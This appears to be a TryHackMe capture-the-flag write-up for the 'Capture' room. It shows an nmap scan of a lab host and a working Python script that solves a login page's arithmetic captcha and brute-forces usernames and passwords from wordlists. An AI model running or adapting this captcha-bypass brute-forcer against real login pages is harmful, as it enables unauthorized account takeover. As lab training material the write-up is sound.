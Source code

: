 ```yaml
---
title: Capture TryHackMe Writeup
tags: [writeup, tryhackme, bypass, captcha, bruteforce, python]
style: border
color: success
description: ""
---
```


![logo](../assets/img/capture-tryhackme-writeup/machine.jpg)

## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 10.10.183.73 -Pn -n -oN nmap-10.10.183.73.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 22:10 CEST
Nmap scan report for 10.10.183.73
Host is up (0.058s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 199
|     Location: /login
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
```

## Enumeration
We access the website, see the Intranet authentication form, try default credentials, but without success.
![](../assets/img/capture-tryhackme-writeup/1.png)

We download the files, there is a list of users and a list of passwords, this gives us a clue that we will have to use brute force. (*These files are provided in the challenge description.*)

```
> ls
passwords.txt  usernames.txt
                                                                                            
> wc -l *
 1567 passwords.txt
  877 usernames.txt
 2444 total

```
It seems easy, but things get complicated because the application has an arbitrary captcha protection, so we will have to generate a script in Python (or the language you control) to perform brute force and evade the protection.
![](../assets/img/capture-tryhackme-writeup/4.png)

## Exploitation
In my case, I assemble a simple Python script with a function to calculate the captcha and make the request, the script is divided into two parts:
1. First it detects the existing user.
2. If the user exists, it will start to get the password and as soon as it detects it, it will stop.

#### Script coding

```python
#!/usr/bin/env python3

import requests, re

url = "http://10.10.183.73/login"
burp = {'http': 'http://127.0.0.1:8080'}

def extractCaptcha(html):
    captcha_regex = r'(\d+)\s*([\+\-\*])\s*(\d+)\s*=\s*\?'
    match = re.search(captcha_regex, html)
    if match:
        num1 = int(match.group(1))
        operator = match.group(2)
        num2 = int(match.group(3))
        if operator == '+':
            result = num1 + num2
        elif operator == '-':
            result = num1 - num2
        elif operator == '*':
            result = num1 * num2
        return result
    else:
        return None

if __name__ == '__main__':

	s = requests.session()

	print("[+] Bruteforce starting...")

	result = "does not exist"
	fUsers = open('/home/kali/Documents/Capture/files/usernames.txt', errors='ignore')
	for username in fUsers.readlines():

		postData = {
			'username': username.strip(),
			'password': "test",
			'captcha': result
		}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)

		if "does not exist" not in r.text:
			print("\n[+] Found User: " + username.strip())
			break

	
	username = username.strip()

	print("\n[+] Obtain password....")
	fPasswords = open('/home/kali/Documents/Capture/files/passwords.txt', errors='ignore')
	for password in fPasswords.readlines():
		postData = {
		'username': username,
		'password': password.strip(),
		'captcha': result
	}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)
		
		if "Error:" not in r.text:
			print("\n[+] Found credentials: " + username.strip() + ":" + password.strip())
			break
```

After a few minutes we will get the credentials:

```
> python3 bruteforce.py
[+] Bruteforce starting...

[+] Found User: xxxxxxxxx

[+] Obtain password....

[+] Found credentials: xxxxxx:********
```
Finally we authenticate with the credentials and we will obtain the flag.

![](../assets/img/capture-tryhackme-writeup/3.png)